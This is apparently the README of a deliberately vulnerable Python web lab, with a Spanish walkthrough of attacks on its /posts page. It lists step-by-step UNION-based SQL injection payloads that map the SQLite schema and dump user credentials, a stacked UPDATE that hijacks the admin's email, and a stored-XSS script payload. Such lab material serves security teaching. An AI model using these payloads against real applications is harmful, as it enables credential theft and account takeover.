 Python version 3.12.3

Install dependencies: pip3 install -r requirements.txt

Run: py app.py

---

1. Entrar a la ruta /posts y cambiar el query param role por 'admin', lo cual habilita un campo filtro
2. Inyectar sql en este campo filtro.

   - Acá probamos con una sola columna, nos dicen que faltan más y vamos probando con más hasta que encontramos que son 3, ya que cambia de error
   - ' UNION ALL SELECT name FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT name, name as bla FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT name, name as bla, name as ble FROM sqlite_master WHERE type='table'--
   - Acá nos dice que hay un error que dice que necesitamos un valor entero, entonces vamos probando columna por columna para ver cual es la columna que debe ser un entero
   - ' UNION ALL SELECT name, name as bla, 11 as ble FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT name, 77 as bla, 11 as ble FROM sqlite_master WHERE type='table'--
   - ' UNION ALL SELECT 66, name as bla, 11 as ble FROM sqlite_master WHERE type='table'--

   - Ahora, teniendo el nombre de la tabla, queremos descubrir los nombres de los campos (users, posts y comments)
   - ' UNION ALL SELECT 20, sql, '-' FROM sqlite_schema where name = 'users' --
   - ' UNION ALL SELECT 20, sql, '-' FROM sqlite_schema where name = 'posts' --
   - ' UNION ALL SELECT 20, sql, '-' FROM sqlite_schema where name = 'comments' --

   - Con toda la informacion previa, podemos ver la información de las tablas
   - ' UNION ALL SELECT id, id || ' ' || username || ' ' || email || ' ' || role, password FROM 'users' --
   - ' UNION ALL SELECT id, title, content FROM 'posts' --
   - ' UNION ALL SELECT id, content, post_id FROM 'comments' --

   - En el mismo campo, intentamos buscar la forma de cambiar el mail, pero no nos permite, ya que se ejecuta solo una consulta a la vez
   - s' ; UPDATE users SET email='my_email' WHERE username='admin'; --

   - Buscamos otros campos donde poder injectar sql. Encontramos que los posts tienen un campo texto, que permite esta injeccion
   - s' ; UPDATE users SET email='`<un_mail>`' WHERE username='admin'; --

3. ' UNION ALL SELECT 10 as id, sql AS content, '-' as title from sqlite_schema where name = 'users' --
4. Logeado como admin, crear un post con contenido malicioso. Ejemplo de contenido: <script>alert('alerta xss')</script>
